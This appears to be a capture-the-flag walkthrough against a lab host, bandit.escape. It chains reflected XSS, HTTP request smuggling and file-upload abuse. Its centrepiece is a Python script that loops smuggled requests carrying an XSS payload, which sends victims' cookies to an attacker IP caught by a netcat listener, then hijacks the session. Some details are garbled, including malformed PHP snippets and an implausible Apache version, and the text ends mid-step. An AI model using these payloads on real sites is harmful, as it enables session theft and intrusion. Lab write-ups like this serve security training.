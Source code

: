
### Reflected XSS

Reflected XSS is a type of **Cross-Site Scripting (XSS)** attack where an attacker injects malicious scripts into a web application. The injected script is **reflected** off the web server and executed in the victim's browser.

**How It Works**

1. **Attacker crafts a malicious URL** containing a script.
2. **Victim clicks the link** (via phishing, comments, etc.).
3. **Web server reflects the input** without sanitization.
4. **Victim’s browser executes the script** (stealing cookies, session hijacking, etc.).

---

# Your job

Go to the home page. There's a **search** field.

So, insert the following code on the search field.

```
"><script>alert('1');</script>
```

After click on the Search button you'll see a pop up window like this:

![[Enumeration-20250325205126744.webp]]

>[!Success]
>The pagee is vulnerable to Reflected XSS.


## Apache 7.1.1 — HTTP Smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

This version of Apache is vulnerable to HTTP Smuggling. On this [web](https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/) you can learn more about this vulnerability.

### Exploit

Use the following payload on Burp Suite.

```
GET / HTTP/1.1
Host: bandit.escape
Accept: */*
Connection: keep-alive
Content-Length: 71
Transfer-Encoding: chunked

0
GET /?filter="><script>alert('1')%3B<%2Fscript> HTTP/1.1
Sth:
```

1. Intercept  the http://bandit.escape/?filter=%22%3E%3Cscript%3Ealert%28%271%27%29%3B%3C%2Fscript%3E with Burp Proxy.
2. Send the request to Intruder.
3. Select `Payloads` and set Payload type = `null payloads`.
	![[Exploitation-20250401202714479.webp]]
4. Check the option `Continue indefinitely`.
5. Start the attack.
	![[Exploitation-20250401202952664.webp]]

	Now, upon refreshing the page, we’ll see our XSS in action even though we’re not interacting with the page.

## XSS + HTTP Smuggling = Cookie Graber

Now, you have to combine both vulnerabilities.

There's a tool called [The PHP cookie stealer](https://github.com/TheWation/PhpCookieStealer) that can be use in XSS attacks to steal browser cookies from victims.

The plan is as follows:

1. Host a server that acts as a cookie grabber.
2. Then deploy an XSS payload redirecting to our server.
3. The server reads the cookie.
4. We replace the cookies.


---
# Your job

#Attacking_Machine 
1. Start a netcat listener.
```
nc -lnvp 8002
```

2. Craft a payload. Create a file called xss.py.
```
import requests

url = "http://bandit.escape/"
body = f"""0

GET /?filter=a" /><script>document.write('<img+src%3d"http%3a//10.50.97.227%3a8002/test.gif%3fcookie%3d'+%2b+document.cookie+%2b+'"+/>')</script> HTTP/1.1
Whatever:""".replace('\n', '\r\n')

headers = {
	"Content-Length": str(len(body)),
	"Transfer-Encoding": "chunked",
	}

while True:
	r = requests.get(url,headers=headers, data=body)
```

3. Save the payload and run it.
```
python3 xss.py
```

4. Wait about a minute.
	![[Exploitation-20250405113050702.webp]]
	Gobuster showed there is a page called `upload.php`. Let's try to access.
	
5. Go to  http://bandit.escape/login.php to get the actual cookie.
6. Go to http://bandit.escape/upload.php.
7. Open the Dev. Options on your browser and paste the cookie from the previous step on the field `value`.

	![[Exploitation-20250405115302330.webp]]
8. Update the page and you'll have access to the uploads page.
	![[Exploitation-20250405115536051.webp]]


---
## File uploading

Trying to upload a sample image fails due to a limit exceeded warning.

![[Exploitation-20250408195208723.webp]]

Create a file called `rse.png` with the following PHP code.

```
<?php echo "test";/>
```

Upload the file.

![[Exploitation-20250408195432891.webp]]

It surprisingly accepts it.
### Finding images directory

Now, you need to know where the images are saved in order to upload a payload.

Returning to the home page of the website, you'll notice that files appear in the gallery as you upload your images.

![[Exploitation-20250408200051691.webp]]

Right-click on the image name and copy the link.

Navigate to the link.

![[Exploitation-20250407200959395.webp]]

You'll see the above message and the the directory where the images are saved is `uploads`.


Compute the **MD5 hash** of the rse.png file:

```
echo -n "rse.png" | md5sum
```

![[Exploitation-20250408200503817.webp]]

Compute the **MD5 hash** of the rse.php file:

```
echo -n "rse.php" | md5sum
```

![[Exploitation-20250408204051992.webp]]

Visit  http://bandit.escape/uploads/25916dd6b7d8d181938df293a0cc467b.php.


### Payload PoC

- Intercepting with Burp Proxy try to upload and image.
- Send the request to Repeater.
- Delete all the image strange code.
- Add the following code:
```
<?
echo 'test';
/>
```


![[Exploitation-20250407210325144.webp]]


You have to create a small php payload 